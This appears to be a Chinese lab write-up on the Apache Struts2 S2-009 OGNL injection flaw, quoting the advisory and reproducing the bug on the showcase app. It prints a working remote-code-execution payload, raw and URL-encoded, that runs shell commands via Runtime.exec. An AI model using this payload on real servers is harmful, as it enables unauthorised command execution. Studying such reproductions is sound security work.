 > OGNL provides, among other features, extensive expression evaluation capabilities. The vulnerability allows a malicious user to bypass all the protections (regex pattern, deny method invocation) built into the ParametersInterceptor, thus being able to inject a malicious expression in any exposed string variable for further evaluation.
>
> A similar behavior was already addressed in S2-003 and S2-005, but it turned out that the resulting fix based on whitelisting acceptable parameter names closed the vulnerability only partially. 
> Regular expression in ParametersInterceptor matches top['foo']\(0\) as a valid expression, which OGNL treats as (top['foo'])(0) and evaluates the value of 'foo' action parameter as an OGNL expression. This lets malicious users put arbitrary OGNL statements into any String variable exposed by an action and have it evaluated as an OGNL expression and since OGNL statement is in HTTP parameter value attacker can use blacklisted characters (e.g. #) to disable method execution and execute arbitrary methods, bypassing the ParametersInterceptor and OGNL library protections.

在修补了S2-003和S2-005之后，攻击者又发现了一种新的绕过`ParametersInterceptor`正则保护的攻击方式

当传入`(ONGL)(1)`时，会将前者视为ONGL表达式来执行，从而绕过了正则的匹配保护。而且由于其在HTTP参数值中，也可以进一步绕过字符串限制的保护

## 漏洞利用

这回是直接利用官方的`showcase`war包来演示漏洞利用

触发地址`/ajax/example5.action`

在网上找了个有回显的payload

```
age=12313&name=(#context["xwork.MethodAccessor.denyMethodExecution"]=+new+java.lang.Boolean(false),+#_memberAccess["allowStaticMethodAccess"]=true,+#a=@java.lang.Runtime@getRuntime().exec('ls').getInputStream(),#b=new+java.io.InputStreamReader(#a),#c=new+java.io.BufferedReader(#b),#d=new+char[51020],#c.read(#d),#kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#kxlzx.println(#d),#kxlzx.close())(meh)&z[(name)('meh')]
```

编码后完整的url

```
http://192.168.85.133:8080/ajax/example5.action?age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27ls%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)(%27meh%27)]
```

网页访问会返回一个文件下载，这里直接用burp会方便点，可以直接看
